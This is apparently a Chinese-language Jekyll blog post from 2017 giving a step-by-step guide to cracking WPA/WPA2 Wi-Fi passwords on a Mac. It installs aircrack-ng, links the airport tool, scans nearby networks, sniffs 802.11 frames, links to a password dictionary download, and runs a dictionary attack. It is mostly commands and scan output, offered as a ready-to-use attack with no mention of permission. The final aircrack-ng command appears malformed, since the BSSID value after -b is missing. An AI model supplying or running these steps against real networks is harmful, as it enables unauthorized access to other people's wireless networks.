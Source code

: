 ```yaml
---
layout: topic
module: Mac
title:  Mac下破解wifi密码
date:   2017-02-28
---
```


#### 安装Aircrack-ng

Homebrew安装方式:

```shell
$ brew link makedepend
$ brew install aircrack-ng
```

#### 链接airport

```bash
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport
```

```bash
$ airport -s

                            SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                        DP-Guest c4:14:3c:cb:87:14 -64  1       Y  CN WPA2(PSK/AES/AES) 
                            MTDP 1c:1d:86:71:be:fd -69  165     Y  CN WPA2(802.1x,Unrecognized(0)/AES/AES) 
                              DP c4:14:3c:cb:87:10 -66  1       Y  CN WPA2(802.1x,Unrecognized(0)/AES/AES) 
                        DP-Guest 1c:1d:86:07:c4:44 -57  1       Y  CN WPA2(PSK/AES/AES) 
                      MTDP_guest c4:14:3c:cb:87:16 -55  1       Y  CN NONE
                             MBP 98:01:a7:9f:6c:f7 -62  1       Y  -- WPA2(PSK/AES/AES) 
                            MTDP 1c:1d:86:07:c4:42 -54  1       Y  CN WPA2(802.1x,Unrecognized(0)/AES/AES) 
                         DP_tech c4:14:3c:cb:87:11 -64  1       Y  CN WPA2(802.1x,Unrecognized(0)/AES/AES)
```

#### 监听抓包

```bash
$ airport en0 sniff 6
Capturing 802.11 frames on en0.

Session saved to /tmp/airportSniffUpXJbV.cap.
```

#### 下载密码字典

下载地址: [https://pan.baidu.com/s/1o7MCcHk](https://pan.baidu.com/s/1o7MCcHk)

#### 破解wifi密码

```bash
sudo aircrack-ng -w password.txt -b /tmp/airportSniffUpXJbV.cap
```

#### 参考资料

1. [http://topspeedsnail.com/macbook-crack-wifi-with-wpa-wpa2/](http://topspeedsnail.com/macbook-crack-wifi-with-wpa-wpa2/)
